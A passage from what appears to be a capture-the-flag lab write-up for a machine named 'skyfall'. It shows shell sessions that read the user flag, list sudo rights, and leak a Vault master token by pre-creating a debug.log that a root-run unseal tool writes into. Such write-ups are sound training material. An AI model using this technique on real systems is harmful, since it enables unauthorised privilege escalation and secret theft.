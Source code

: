 ```bash
Last login: Sun Feb  4 19:16:44 2024 from 10.10.14.189
askyy@skyfall:~$ id
uid=1000(askyy) gid=1000(askyy) groups=1000(askyy)
```


User flag: `cabea17b991f462032f37e394742a1a5`
```bash
askyy@skyfall:~$ cat user.txt 
cabea17b991f462032f37e394742a1a5
```


## Privilege Escalation
Sudo -l output.
```bash
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\\:/usr/local/bin\\:/usr/sbin\\:/usr/bin\\:/sbin\\:/bin\\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml [-vhd]*
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
```


Running the command we can run as root using the -vd flags results in a new token.
```bash
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: <http://prd23-vault-internal.skyfall.htb>
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
```


The token is written to a debug.log file. Since we are not the owner of this file we can circumvent this by creating the debug.log file before executing the above command.
```bash
askyy@skyfall:~/test$ touch debug.log
askyy@skyfall:~/test$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: <http://prd23-vault-internal.skyfall.htb>
[>] Check interval: 5s
[>] Max checks: 5
[>] Checking seal status
[+] Vault sealed: false
askyy@skyfall:~/test$ ls
debug.log
askyy@skyfall:~/test$ cat debug.log 
2024/02/04 19:43:56 Initializing logger...
2024/02/04 19:43:56 Reading: /etc/vault-unseal.yaml
2024/02/04 19:43:56 Security Risk!
2024/02/04 19:43:56 Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
2024/02/04 19:43:56 Found Vault node: <http://prd23-vault-internal.skyfall.htb>
2024/02/04 19:43:56 Check interval: 5s
2024/02/04 19:43:56 Max checks: 5
2024/02/04 19:43:56 Establishing connection to Vault...
2024/02/04 19:43:56 Successfully connected to Vault: <http://prd23-vault-internal.skyfall.htb>
2024/02/04 19:43:56 Checking seal status
2024/02/04 19:43:56 Vault sealed: false
```